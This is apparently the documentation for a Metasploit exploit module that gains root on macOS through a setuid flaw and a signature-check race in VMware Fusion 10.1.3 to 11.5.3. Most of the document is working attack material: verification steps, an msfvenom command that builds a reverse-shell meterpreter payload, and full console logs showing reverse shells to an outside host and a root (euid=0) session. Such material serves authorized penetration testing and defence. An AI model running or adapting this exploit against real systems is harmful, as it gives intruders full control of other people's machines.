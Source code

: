 ## Vulnerable Application

This exploits an improper use of setuid binaries within VMware Fusion 10.1.3 - 11.5.2. The `Open VMware USB Arbitrator Service` can be
launched outide of its standard path which allows loading of an attacker controlled binary. By creating a payload in the user home
directory in a specific folder, and creating a hard link to the `Open VMware USB Arbitrator Service`, we're able to launch it
temporarily to start our payload with an effective UID of 0.

Additional description can be found in
@mirchr's [exploit](https://raw.githubusercontent.com/mirchr/security-research/master/vulnerabilities/CVE-2020-3950.sh).

It was found that VMware Fusion 11.5.3, which patched the previous vulnerability utilized an incomplete patch.  The patch checked
for a correct code signature on the `VMware USB Arbitrator Service` at start, but not at launch, thus creating a TOCTOU race
condition.  The discoverer @jeffball55 demoed the exploit working in ~30 attempts.  This module has been successful between
5 and 25 attempts.

VMware Fusion 11.5.1 is available from [VMware](https://download3.vmware.com/software/fusion/file/VMware-Fusion-11.5.1-15018442.dmg).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a shell
  4. Do: ```use exploit/osx/local/vmware_fusion_lpe```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a `euid=0` shell.

## Options

### MAXATTEMPTS

The maximum attempts to start `VMware USB Arbitrator Service`, attempting to win the race against 11.5.3.  Default is `75`.

### Session

Which session to use this exploit on.

## Scenarios

### VMware Fusion 11.5.1 (15018442) on macOS 10.15.3 (19D76)

```
/msfvenom --payload python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=8888 -b "\x00" -o /var/www/html/meterp_8888.py
```

```
[*] Processing fusion.rb for ERB directives.
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[+] Vmware Fusion 11.5.1 is exploitable
[*] The target appears to be vulnerable.
[*] Started reverse TCP handler on 1.1.1.1:8888
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49265) at 2020-03-23 18:07:57 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.doman
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444
[+] Vmware Fusion 11.5.1 is exploitable
[*] Using pre-11.5.3 exploit
[*] Uploading Payload: /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Creating folder (/Users/h00die/2KLH/s0m/wX8XO/) and link
[*] Starting USB Arbitrator Service (5 sec pause)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49269) at 2020-03-23 18:08:14 -0400
[+] Deleted /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/h00die/2KLH

meterpreter > getuid
Server username: h00die @ h00dies-MBP.domain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.domain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx

```

### VMWare Fusion 11.5.3 on macOS 10.15.3

```
```

```
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:8888
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49198) at 2020-03-28 07:37:16 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.ragedomain
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```
```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444
[+] Vmware Fusion 11.5.3 is exploitable
[*] Using 11.5.3 exploit
[*] Uploading Payload to /Users/h00die/Contents/Library/services/SAGgama
[*] Uploading race condition executable.
[*] Writing '/Users/h00die/Contents/Library/services/TVOK7bDP' (342 bytes) ...
[*] Creating folder (/Users/h00die/weGd/JvR/VoYDt/) and link
[*] Writing '/Users/h00die/Contents/Library/services/alYnwGRyo' (178 bytes) ...
[*] Launching Exploit /Users/h00die/Contents/Library/services/alYnwGRyo
[*] attempt 1
[*] Exploit Finished, killing
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49213) at 2020-03-28 07:37:28 -0400
[-] Unable to delete /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[+] Deleted /Users/h00die/Contents/Library/services/TVOK7bDP
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_fs_delete_dir: Operation failed: Python exception: OSError
[*] Exploit completed, but no session was created.
msf5 exploit(osx/local/vmware_fusion_lpe) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: h00die @ h00dies-MBP.ragedomain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.ragedomain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter >
```
